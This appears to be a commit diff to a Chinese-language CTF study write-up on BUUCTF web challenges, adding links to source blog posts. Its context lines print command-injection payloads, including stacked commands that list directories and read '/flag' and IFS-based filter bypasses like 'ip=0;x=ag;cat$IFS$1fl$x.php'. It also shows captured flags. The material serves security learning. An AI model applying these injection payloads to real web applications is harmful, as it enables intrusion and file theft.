

Before and after one commit to adm3n-hnt/CTF-Study, a Markdown page: buuctf write up/web.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/buuctf write up/web.md
+++ b/buuctf write up/web.md
@@ -130,6 +138,8 @@ echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
 <a name="OH7u8"></a>
 ### **第二种、堆叠查询**
 列出当前目录文件；列出隐藏文件；列出根目录下的文件；查看根目录下flag文件的内容<br />`127.0.0.1;ls;ls -a;ls /;cat /flag`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698201726844-14a619f6-1821-472c-ac35-9a2ee3f40d45.png#averageHue=%23f5f5f5&clientId=u90f92586-9a2e-4&from=paste&height=758&id=ufa57bd66&originHeight=948&originWidth=1063&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=66837&status=done&style=none&taskId=u995fe147-fc69-4add-b6b4-fa09bff2b73&title=&width=850.4)<br />**得出flag：**<br />`**flag{ce0a3875-bc2a-49f9-b285-dccdf195531b}**`<br />两种方法可以看出有明显的不同
+
+原文链接：https://blog.csdn.net/m0_73734159/article/details/134029479?spm=1001.2014.3001.5501
 
 ## [GXYCTF2019]Ping Ping Ping 1
 
@@ -156,6 +166,8 @@ echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
 > fa$x=flag
 
 **构造payload：**<br />`**URL?ip=0;x=ag;cat${IFS}fl$x.php**`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698219076973-3a184aa5-455d-4a45-a589-0efebf7fb4a3.png#averageHue=%23f7f5f3&clientId=ub5d3c2c2-2e29-4&from=paste&height=38&id=u7ebe6899&originHeight=48&originWidth=350&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2073&status=done&style=none&taskId=u83d5b49d-311e-45fb-bc3b-237b51d3596&title=&width=280)<br />字符报错！<br />猜测"{}"被过滤<br />试试第二种空格绕过方法<br />**构造payload:**<br />`**URL?ip=0;x=ag;cat$IFS$1fl$x.php**`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698219718651-776f6cfd-2a1b-4bf7-a8bd-8bec0412f405.png#averageHue=%23f4f4f4&clientId=ub5d3c2c2-2e29-4&from=paste&height=194&id=ube092bab&originHeight=242&originWidth=572&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6709&status=done&style=none&taskId=u9d310f28-ddb7-4529-ab14-a89be2deda3&title=&width=457.6)<br />**有回显结果，绕过成功，但是没有发现flag，F12查看网页源代码，看看有没有flag**<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698219743590-733bf4b1-15e3-4bad-8374-3d6e45d77975.png#averageHue=%23f4f4f4&clientId=ub5d3c2c2-2e29-4&from=paste&height=216&id=u3ab197a6&originHeight=270&originWidth=581&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12592&status=done&style=none&taskId=u9dcd84a9-a474-4ab9-ad31-1246b948b85&title=&width=464.8)<br />**得出flag：**<br />`flag{08512195-033d-4f18-a5b0-00dcbc58c4b8}`
+
+原文链接：https://blog.csdn.net/m0_73734159/article/details/134036632?spm=1001.2014.3001.5501
 
 ## [强网杯 2019]随便注 1(超详细，三种解法）
 
@@ -193,6 +205,8 @@ select命令被过滤了怎么办？我们还可以用handler命令进行查看
 
 上传payload，回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/1aa5220a282ceac998065c80dc38af21.png)
 
+原文链接：https://blog.csdn.net/m0_73734159/article/details/134049744?spm=1001.2014.3001.5501
+
 ## [SUCTF 2019]EasySQL 1
 
 题目环境：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698664486260-6f6c0019-9130-4140-a1b2-9cceb09022f5.png#averageHue=%23f8f7f5&clientId=u0afe607f-2d1f-4&from=paste&height=202&id=uf83fd9bc&originHeight=253&originWidth=876&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21417&status=done&style=none&taskId=u889268b8-2948-42df-b872-3ff591d0b4b&title=&width=700.8)
```
Also changed, not shown: other parts of buuctf write up/web.md (+12 -0 lines).
